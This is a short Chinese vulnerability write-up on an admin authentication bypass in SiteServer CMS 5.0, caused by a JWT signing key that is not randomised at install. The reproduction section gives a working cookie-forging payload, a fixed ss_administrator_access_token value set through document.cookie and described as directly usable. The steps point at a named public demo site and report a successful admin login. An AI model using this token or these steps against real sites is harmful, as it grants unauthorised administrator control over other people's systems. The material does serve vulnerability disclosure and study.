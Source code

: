 SiteServer CMS 5.0 管理后台Cookie欺骗
=====================================

一、漏洞简介
------------

SiteServer CMS 5.0
后台访问控制采用JWT技术进行身份鉴别，HTTP请求时通过Cookie中的ss\_administrator\_access\_token字段值作为身份鉴别，而加密ss\_administrator\_access\_token字段值的key在安装时未进行随机初始化，导致所有相同版本的应用系统Cookie可以通用,通过修改Cookie可登陆任意相同版本后台。

二、漏洞影响
------------

SiteServer CMS 5.0

三、复现过程
------------

系统环境：IIS 7.5 + MSSQL 2008 R2 （操作系统：Windows Server 2008 R2）

先访问一个站点，以官方体验站点为例子：

http://cms.demo.siteserver.cn/siteserver/login.aspx

Chrome浏览器按F12切换到控制台，设置ss\_administrator\_access\_token的Cookie值（以下PoC可以直接使用）：

    document.cookie='ss_administrator_access_token=M3ENIa3NKJJ39JCRHnY4PgfJqMC7lFjggL0e9S06Bs9ubZE90add0xM2aesaL0add0Cxo8Xe5VZrSanerzFU8oZaMXCC9AoJfZvq5AtBXGxi0slash0tCRtk8UgV5UXu1u2pDL6htbwIqGBZx0slash0ZqVH4x0LjRE20slash0mz3FHc5QJFpTAKI0slash0AJ52LJ6XnWB7gsJuHFauL0add0q0add0sIMft8e3ef840gWzQaChpfGHfYwGS5wHFaC19T56X2J0Z5Hn500equals0'

再次访问（后面没有login.aspx）：

http://cms.demo.siteserver.cn/siteserver/

登陆成功
